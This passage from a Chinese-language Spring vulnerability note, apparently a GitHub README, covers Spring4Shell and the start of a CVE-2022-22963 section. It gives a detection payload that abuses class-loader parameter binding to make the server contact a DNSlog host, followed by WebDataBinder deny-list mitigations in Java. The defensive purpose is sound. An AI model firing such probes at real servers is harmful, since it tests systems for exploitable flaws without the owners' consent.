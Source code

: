   ###### 漏洞探测：

  ```
  class.module.classLoader.resources.context.configFile=http://dnslog地址&class.module.classLoader.resources.context.configFile.content.aaa=xxx
  ```

  

- #### 缓解措施

  ###### 不升级组件的缓解措施：

  ###### 除了WAF以及其他安全监控设备上更新该漏洞相关规则以外，还可以在controller层通过指定WebDataBinder参数绑定的黑名单，再次对恶意语句的关键字进行过滤，阻止程序将其绑定到POJO上。

  ```java
    @InitBinder
      public void initBinder(WebDataBinder binder) {
          String[] blackList = {"class.*", "Class.*", "*.class.*", ".*Class.*"};
          binder.setDisallowedFields(blackList);
      }
  ```
  ![image-20220427112322300](https://user-images.githubusercontent.com/33454436/166195202-02525e45-7a27-4985-9d2b-90537ae3a6ab.png)

  
  ###### 或者通过创建一个ControllerAdvice组件，对危险参数进行拦截

  ```java
  @ControllerAdvice
  @Order(10000)
  public class BinderControllerAdvice {
      @InitBinder
      public void setAllowedFields(WebDataBinder dataBinder) {
           String[] denylist = new String[]{"class.*", "Class.*", "*.class.*", "*.Class.*"};
           dataBinder.setDisallowedFields(denylist);
      }
  
  }
  ```
  ![image-20220427125706823](https://user-images.githubusercontent.com/33454436/166195219-c4b73b43-2bd2-4ef1-bcbb-d915cf1ec293.png)

  

  

------

# Spring Cloud Function Spel表达式注入 CVE-2022-22963

- #### 影响版本：

  ###### Spring Cloud Function 3.1.6、3.2.2

- #### 安全版本：

  ###### 3.1.7

